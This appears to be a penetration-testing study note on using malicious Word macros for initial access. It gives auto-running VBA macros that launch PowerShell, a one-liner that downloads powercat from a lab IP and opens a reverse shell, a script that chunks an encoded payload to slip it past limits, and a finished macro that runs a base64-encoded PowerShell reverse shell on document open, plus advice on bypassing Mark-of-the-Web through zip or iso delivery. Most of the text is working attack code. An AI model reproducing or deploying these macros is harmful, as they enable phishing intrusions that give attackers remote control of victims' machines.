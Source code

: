 * If the file is downloaded via email the file is delivered as `MOTW` *Mark on the web* 
* The enable editing button then needs to be clicked on 
* This can be bypassed by delivering in a zip iso etc
## Leveraging Macros
1. Create a blank document
```
mymacro.doc
```
*View > Macros > Create*
```VBA 
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```

*Sub AutoOpen():* This is a special macro that automatically executes whenever the Word document containing this code is opened.
`MyMacro` calls the macro 

*Sub Document_Open()*: This is another special macro that automatically executes specifically when the document is opened (a similar but distinct event from just loading the Word application).
*MyMacro*: Again, this calls the MyMacro subroutine, launching PowerShell.

*Sub MyMacro()*: This subroutine defines the core action of the code.

*CreateObject("Wscript.Shell").Run "powershell":* This line remains unchanged. It creates a Wscript.Shell object and uses the Run method to launch PowerShell.


```Powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
```
Split this into chunks of 50 chars

```bash
Str="powershell -e JABjAGwAaQBl........"

# Split the encoded string into chunks of 50 characters
chunk_size=50
for ((i=0; i<${#str}; i+=chunk_size)); do
  chunk="${str:$i:$chunk_size}"
  echo "Str = Str +  $chunk"  
done

```

```VBA
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
	Str = Str + "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAt"
	Str = Str + "AE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAF"
	Str = Str + "MAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIA"
	Str = Str + "MQA5ADIALgAxADYAOAAuADQANQAuADIAMgA1ACIALAAxADIAMw"
	Str = Str + "A0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBu"
	Str = Str + "AHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AG"
	Str = Str + "UAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUA"
	Str = Str + "MwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQ"
	Str = Str + "AgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABl"
	Str = Str + "AHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AG"
	Str = Str + "gAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0A"
	Str = Str + "IAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATg"
	Str = Str + "BhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBD"
	Str = Str + "AEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAG"
	Str = Str + "kAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQA"
	Str = Str + "cwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQ"
	Str = Str + "B0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBu"
	Str = Str + "AGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAH"
	Str = Str + "MAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAA"
	Str = Str + "KABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJA"
	Str = Str + "BzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBl"
	Str = Str + "AG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAG"
	Str = Str + "UAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkA"
	Str = Str + "OwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbg"
	Str = Str + "BkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBM"
	Str = Str + "AGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AH"
	Str = Str + "MAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUA"
	Str = Str + "KAApAA=="



    CreateObject("Wscript.Shell").Run Str
End Sub
```
